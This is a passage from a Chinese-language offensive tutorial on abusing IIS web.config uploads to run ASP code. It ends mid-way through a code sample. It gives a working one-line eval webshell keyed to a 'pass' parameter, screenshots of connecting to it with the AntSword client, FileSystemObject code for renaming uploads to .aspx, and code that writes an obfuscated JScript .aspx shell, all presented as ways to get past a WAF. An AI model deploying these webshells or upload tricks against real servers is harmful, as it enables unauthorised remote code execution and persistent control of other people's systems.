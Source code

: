   

接下来根据配置文件，IIS 将任意 *.config 的内容交给 asp.dll 来解析，这时就像解析一个正常的 asp
脚本一样了，而根据解析的特性，只有代码中被 "<% %>" 包裹的才会真正被解析，所以前面的 xml 配置部分也不会影响代码执行。于是，我们就可以利用
web.config 来执行代码了。

  

分析完配置文件之后，再来看一下实际利用过程，我们已经有了一个可以执行代码的手段，那么接下来的操作就更加丰富了：

  

 **第一种： 可以直接上个小马：**

<% Response.write("-"&"->")

eval request("pass")

Response.write("</pre><!-"&"-") %>

蚁剑连接：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230625172511.png)

执行命令：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230625172512.png)

  

 **第二种，非敏感操作**

如果或者对方的 waf 足够强大的话，还可以利用这里代码执行做一些非敏感操作如：修改文件后缀名、写入 shell 等。

  

  

修改文件名：

<% Response.write("-"&"->")

set fs = CreateObject("Scripting.FileSystemObject")

fs.MoveFile "C:\xxx\xxxx\xxxxx\a.txt","C:\xxx\xxxx\xxxxx\a.aspx"

Response.write("<!-"&"-") %>

  

  

写入 shell ：

<% Response.write("-"&"->")

set fs = CreateObject("Scripting.FileSystemObject")

set wf = fs.CreateTextFile("C:\xxx\xxxx\xxxxx\c.aspx", True)

wf.WriteLine("<%@ Page Language=""Jscript"" Debug=true%\>")

wf.WriteLine("<%")

wf.WriteLine("var
TALN='CIoiSdFjwMGzRuqtbmHUaKnecYLrDkXhpxTVsvAgQZJPfBWylEON';")

wf.WriteLine("var NZRS=Request.Form(""pass"");")
